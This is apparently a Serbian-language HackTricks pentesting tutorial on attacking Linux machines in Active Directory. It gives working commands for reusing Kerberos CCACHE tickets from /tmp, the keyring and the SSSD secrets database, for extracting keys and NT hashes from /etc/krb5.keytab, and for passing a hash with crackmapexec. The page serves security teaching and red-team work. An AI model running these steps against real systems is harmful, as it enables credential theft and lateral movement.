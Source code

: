 # Linux Active Directory

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

Linux mašina takođe može biti prisutna unutar okruženja Active Directory.

Linux mašina u AD-u može **čuvati različite CCACHE tikete unutar fajlova. Ovi tiketi mogu biti korišćeni i zloupotrebljeni kao i bilo koji drugi kerberos tiket**. Da biste pročitali ove tikete, morate biti vlasnik tiketa ili **root** unutar mašine.

## Enumeracija

### Enumeracija AD-a sa linux-a

Ako imate pristup AD-u na linux-u (ili bash-u na Windows-u), možete pokušati [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) da biste enumerisali AD.

Takođe možete proveriti sledeću stranicu da biste saznali **druge načine enumeracije AD-a sa linux-a**:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA je open-source **alternativa** za Microsoft Windows **Active Directory**, uglavnom za **Unix** okruženja. Kombinuje potpuni **LDAP direktorijum** sa MIT **Kerberos** Key Distribution Centrom za upravljanje slično kao Active Directory. Koristi Dogtag **Certificate System** za upravljanje CA & RA sertifikatima, podržava **multi-factor** autentifikaciju, uključujući pametne kartice. SSSD je integrisan za Unix autentifikacione procese. Saznajte više o tome u:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Igranje sa tiketima

### Pass The Ticket

Na ovoj stranici ćete pronaći različita mesta gde biste mogli **pronaći kerberos tikete unutar linux hosta**, na sledećoj stranici možete naučiti kako pretvoriti ove CCache tikete u Kirbi format (format koji je potreban za Windows) i takođe kako izvesti PTT napad:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### CCACHE tiket ponovna upotreba iz /tmp

CCACHE fajlovi su binarni formati za **čuvanje Kerberos akreditiva** i obično se čuvaju sa 600 dozvolama u `/tmp`. Ovi fajlovi se mogu identifikovati po svom **formatu imena, `krb5cc_%{uid}`,** koji se odnosi na UID korisnika. Za verifikaciju autentifikacionog tiketa, **okružna promenljiva `KRB5CCNAME`** treba biti postavljena na putanju željenog fajla sa tiketom, omogućavajući njegovu ponovnu upotrebu.

Prikažite trenutni tiket koji se koristi za autentifikaciju sa `env | grep KRB5CCNAME`. Format je prenosiv i tiket se može **ponovno koristiti postavljanjem okružne promenljive** sa `export KRB5CCNAME=/tmp/ticket.ccache`. Format imena Kerberos tiketa je `krb5cc_%{uid}` gde je uid UID korisnika.

```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```

### Ponovna upotreba CCACHE karata iz keyringa

**Kerberos karte koje su pohranjene u memoriji procesa mogu se izvući**, posebno kada je onemogućena zaštita ptrace na mašini (`/proc/sys/kernel/yama/ptrace_scope`). Korisni alat za tu svrhu može se pronaći na [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), koji olakšava izvlačenje ubrizgavanjem u sesije i ispisivanjem karata u `/tmp`.

Da biste konfigurisali i koristili ovaj alat, sledite korake u nastavku:

```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```

Ovaj postupak će pokušati da ubaci u različite sesije, što ukazuje na uspeh čuvanjem izvučenih karata u `/tmp` sa konvencijom imenovanja `__krb_UID.ccache`.

### Ponovna upotreba CCACHE karte iz SSSD KCM

SSSD održava kopiju baze podataka na putanji `/var/lib/sss/secrets/secrets.ldb`. Odgovarajući ključ se čuva kao skrivena datoteka na putanji `/var/lib/sss/secrets/.secrets.mkey`. Podrazumevano, ključ je čitljiv samo ako imate **root** dozvole.

Pozivanje \*\*`SSSDKCMExtractor` \*\* sa parametrima --database i --key će analizirati bazu podataka i **dekriptovati tajne**.

```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```

**Kerberos bloba keširanog akreditiva može se pretvoriti u upotrebljiv Kerberos CCache** fajl koji se može proslediti Mimikatz/Rubeus alatima.

### Ponovna upotreba CCACHE tiketa iz keytab fajla

```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```

### Izdvajanje naloga iz /etc/krb5.keytab

Ključevi servisnih naloga, koji su neophodni za servise koji rade sa privilegijama root-a, bezbedno se čuvaju u datotekama **`/etc/krb5.keytab`**. Ovi ključevi, slični lozinkama za servise, zahtevaju strogu poverljivost.

Za pregled sadržaja keytab datoteke, može se koristiti alatka **`klist`**. Ovaj alat prikazuje detalje ključeva, uključujući i **NT Hash** za autentifikaciju korisnika, posebno kada je tip ključa identifikovan kao 23.

```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```

Za Linux korisnike, **`KeyTabExtract`** nudi funkcionalnost za izvlačenje RC4 HMAC heša, koji se može iskoristiti za ponovnu upotrebu NTLM heša.

```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```

Na macOS-u, **`bifrost`** služi kao alat za analizu keytab fajlova.

```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```

Koristeći izvučene informacije o nalogu i hešu, moguće je uspostaviti konekcije sa serverima koristeći alate poput **`crackmapexec`**.

```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```

## Reference

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
